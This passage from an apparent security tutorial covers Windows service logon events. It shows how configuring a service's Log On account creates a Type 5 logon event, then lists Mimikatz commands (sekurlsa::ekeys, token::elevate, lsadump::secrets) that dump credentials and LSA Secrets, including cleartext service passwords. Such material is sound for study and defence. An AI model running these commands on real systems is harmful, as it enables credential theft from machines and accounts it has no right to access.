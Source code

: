 2) Select a service that we want to modify.

3) Right click and click on properties.

4) Go to the "Log On" tab.

5) Select “This account” radio button and click on "Browse..." button and add an account by which the service will run.

6) Enter the password in "Password" & "Confirm Password" field.

7) Click on "Apply" and the "OK".

8) Restart the service.

For our demo we will modify "SNMP Trap" service as seen in the below screenshot.

![](https://static.wixstatic.com/media/8b80b6_1c4828c5f84a4d7b85b7e4b0a5114b56~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Modify Service Configuration

Once we restart the service Logon Type 5 event is generated. We can see the same in the below screenshot.

![](https://static.wixstatic.com/media/8b80b6_e4e3a489050043b283cc37b6baa2bd14~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Service Logon Event

**Using Mimikatz**

We can use the below mentioned [Mimikatz](https://github.com/gentilkiwi/mimikatz) commands for extracting the credentials.

```
privilege::debug
sekurlsa::ekeys

```

![](https://static.wixstatic.com/media/8b80b6_5d77ad0fcf3b42c995be11cb28748162~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Mimikatz

We can also extract cleartext credentials from services by dumping LSA Secrets using [Mimikatz](https://github.com/gentilkiwi/mimikatz). LSA Secrets stores secrets like service account passwords, SYSTEM account password and other important secrets. We can only extract this secrets by SYSTEM privileges so first we will elevate our privileges and then extract the credentials .

```
privilege::debug
token::elevate
lsadump::secrets

```

![](https://static.wixstatic.com/media/8b80b6_c0e757429f974dc6a8d100bb4df43171~mv2.png/v1/fit/w_300,h_300,al_c,q_5/file.png)

Extract Credentials using Mimikatz
